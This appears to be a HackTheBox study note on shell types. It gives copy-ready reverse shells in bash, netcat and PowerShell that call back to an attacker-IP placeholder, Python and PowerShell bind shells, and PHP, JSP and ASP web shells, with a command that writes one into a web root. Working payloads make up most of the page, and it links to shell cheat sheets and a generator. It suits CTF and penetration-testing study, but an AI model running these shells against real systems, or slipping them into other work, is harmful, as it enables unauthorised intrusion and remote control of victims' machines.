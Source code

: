  ![Banner](./Shell.jpg)

# 🔧 **Type of Shells**

## 1. 🔄 Reverse Shell

  In a reverse shell, the target machine connects back to the attacker’s machine, giving the attacker control.

- **Working:** Attacker sets up a listener; the victim initiates the connection.

- **Use:** Bypassing firewalls (since outgoing connections are often allowed).

- **Example flow:**
  
  The first step is to setup a listner (e.g. netcat listener) on a port of your choosing:

      `nc -lvnp <PORT> `

  Next step is choosing the shell according to the envirnment and services. We can use to get a reverse connection, for bash on Linux compromised hosts and Powershell on Windows compromised hosts:
  
  > Linux (bash):
   
       `bash -c 'bash -i >& /dev/tcp/<attacker_ip>/<Port> 0>&1'`
  > Linux (bash):

      `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <attacker_ip> <port> >/tmp/f`
  
  > Windows (powershell):
  
      `powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('<attacker_ip>', <port>);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"`


## 2. 🔗 Bind Shell
  
  In a bind shell, the target machine opens a port and listens for incoming connections from the attacker.
  
- **Working:** The victim machine opens a port and listens; the attacker connects to it to gain a shell.
  
- **Use:** Simple to set up in unrestricted environments, but less useful behind firewalls or NAT, since incoming connections may be blocked.

- **Example flow:**

    First, the victim runs a bind shell command on their system. The shell listens on a port (e.g. 0-65535) and waits for an attacker to connect.

  > Linux (bash):

      `rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -lvp <Port> > /tmp/f`
  
  > Linux (Python):

      `python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept(); while True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'`

  > Windows (PowerShell):

      `powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start(); $client = $listener.AcceptTcpClient(); $stream = $client.GetStream(); [byte[]]$bytes = 0..65535|%{0}; while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i); $sendback = (iex $data 2>&1 | Out-String ); $sendback2 = $sendback + "PS " + (pwd).Path + " "; $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2); $stream.Write($sendbyte,0,$sendbyte.Length); $stream.Flush()}; $client.Close();`

    Once the victim sets the bind shell, attacker can connect like this:

       nc <victim_ip> <Port>
  
    If successful, this gives the attacker an interactive shell.
    


## 3. 🌐 Web Shell
  
  A web shell is a malicious script uploaded to a web server (usually PHP, ASP, JSP, etc.). It executes system commands sent through HTTP requests.

- **Working:** The attacker uploads a script (e.g., PHP, ASP) to the victim’s web server. This script executes system commands via a browser interface.

- **Use:** Common in web server exploitation, especially after finding a file upload or RCE vulnerability. Allows remote command execution via HTTP/S.


- **Example flow:**

  Writing the Web Shell:
    > PHP (most common):
    
      `<?php system($_REQUEST["cmd"]); ?>`
    
    > JSP:
    
      `<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>`
    
    > ASP:
    
      `<% eval request("cmd") %>`

  Uploading the Shell:
    If an upload feature is vulnerable:
        We can upload shell.php to /var/www/html/ or equivalent.
    We can also simply upload the shell file(i.e. in my case it's [Web_Shell.php](https://github.com/en1gm4-exe/HackTheBox/blob/main/Notes%20/%20Shell%20/Web_Shell.php))
 
    If we already have RCE:
      
      `echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php`

    Accessing Web Shell:

      `http://<server_ip>:<port>/shell.php?cmd=id`



# Links for shell generation

> [Powershells cheat sheet](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/powershell-cheatsheet/)

> [Reverse shells cheat sheet](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#tools)

> [Bind shells cheat sheet](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-bind-cheatsheet/#python)

> [Shell generator](https://www.revshells.com/)

